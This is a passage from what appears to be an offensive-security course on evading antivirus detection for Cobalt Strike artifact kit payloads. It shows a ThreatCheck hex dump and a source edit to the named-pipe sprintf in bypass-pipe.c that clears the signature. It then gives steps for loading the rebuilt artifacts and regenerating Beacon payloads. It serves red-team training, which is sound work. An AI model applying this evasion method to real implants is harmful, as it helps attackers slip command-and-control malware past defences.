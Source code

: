 Rebuild the kit and scan the new version of the artifact.  This time we have a different signature - this is an iterative process, so we must repeat these steps until all the detections have been removed.

[!] Identified end of bad bytes at offset 0xE44
00000000   89 C4 31 C0 49 83 FC FF  74 3E 85 DB 7E 1F 49 89   ?Ä1AI?üÿt>?U~·I?
00000010   F9 41 89 D8 48 89 F2 4C  89 E1 48 C7 44 24 20 00   ùA?OH?òL?áHÇD$ ·
00000020   00 00 00 FF 15 FB 29 05  00 85 C0 75 10 4C 89 E1   ···ÿ·û)··?Au·L?á
00000030   FF 15 3E 29 05 00 B8 01  00 00 00 EB 0B 8B 54 24   ÿ·>)··,····ë·?T$
00000040   4C 48 01 D6 29 D3 EB C2  48 83 C4 58 5B 5E 5F 41   LH·Ö)OëAH?ÄX[^_A
00000050   5C C3 41 54 56 53 48 83  EC 20 48 8B 1D 6B EB 04   \AATVSH?ì H?·kë·
00000060   00 48 63 4B 04 E8 22 17  00 00 48 8B 35 F3 29 05   ·HcK·è"···H?5ó)·
00000070   00 49 89 C4 B9 00 04 00  00 FF D6 8B 53 04 4C 89   ·I?Ä1····ÿÖ?S·L?
00000080   E1 E8 2A FF FF FF 85 C0  74 EA 8B 53 04 4C 8D 43   áè*ÿÿÿ?Atê?S·L?C
00000090   08 4C 89 E1 E8 B7 FD FF  FF 4C 89 E1 E8 FB 16 00   ·L?áè·yÿÿL?áèû··
000000A0   00 31 C0 48 83 C4 20 5B  5E 41 5C C3 48 83 EC 68   ·1AH?Ä [^A\AH?ìh
000000B0   FF 15 4E 29 05 00 B9 AA  26 00 00 31 D2 41 B9 5C   ÿ·N)··1ª&··1OA1\
000000C0   00 00 00 F7 F1 C7 44 24  50 5C 00 00 00 C7 44 24   ···÷ñÇD$P\···ÇD$
000000D0   48 65 00 00 00 C7 44 24  40 70 00 00 00 C7 44 24   He···ÇD$@p···ÇD$
000000E0   38 69 00 00 00 C7 44 24  30 70 00 00 00 C7 44 24   8i···ÇD$0p···ÇD$
000000F0   28 5C 00 00 00 C7 44 24  20 2E 00 00 00 41 B8 5C   (\···ÇD$ .···A,\


This one seems related to the sprintf call used to create the pseudo-random pipe name in bypass-pipe.c.



We can get around this one from changing this:

sprintf(pipename, "%c%c%c%c%c%c%c%c%cnetsvc\\%d", 92, 92, 46, 92, 112, 105, 112, 101, 92, (int)(GetTickCount() % 9898));


To something like this:

sprintf(pipename, "%c%c%c%c%c%c%c%c%crasta\\mouse", 92, 92, 46, 92, 112, 105, 112, 101, 92);


In most cases, it doesn't really matter what you change things to, as long as it's different (and still functional).  With that change, we finally have a clean artifact.

PS C:\Users\Attacker> C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Tools\cobaltstrike\artifacts\pipe\artifact64svcbig.exe
[+] No threat found!
[*] Run time: 0.72s

  Note that these specific examples may differ as signatures and the Beacon payload changes over time, but this methodology should always get you through.  Each artifact type will also likely have different signatures used to detect them that you'll need to work through.


To tell Cobalt Strike to use these new artifacts, we must load the aggressor script.  Go to Cobalt Strike > Script Manager > Load and select the artifact.cna file in your output directory.  Any DLL and EXE payloads that you generate from hereon will use those new artifacts, so use Payloads > Windows Stageless Generate All Payloads to replace all of your payloads in C:\Payloads.
  It's strongly advised to delete the existing payloads first because they sometimes only get partially overwritten with the new ones.
